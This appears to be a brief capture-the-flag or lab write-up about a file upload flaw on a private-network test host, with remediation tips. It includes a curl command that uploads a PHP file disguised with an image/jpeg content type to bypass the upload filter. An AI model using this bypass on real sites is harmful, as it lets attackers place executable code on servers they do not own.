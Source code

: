 # 08-Add_Image_Upload

The upload field can take php file types

## The approach

-Go to http://192.168.101.204/?page=upload  

-Test and upload different types of files and you will notice it accepts other files types apart from just JPG.

## The Exploit #

we use Curl to run our script.sh 
```bash
curl -X POST -H 'Content-Type: multipart/form-data' -F 'Upload=send' -F 'uploaded=@empty.php;type=image/jpeg' http://192.168.101.204/index.php\?page\=upload\#


## The solution

- Use strict types when uploading files. Validate file type 
- validate user inputs from back end before proceeding.

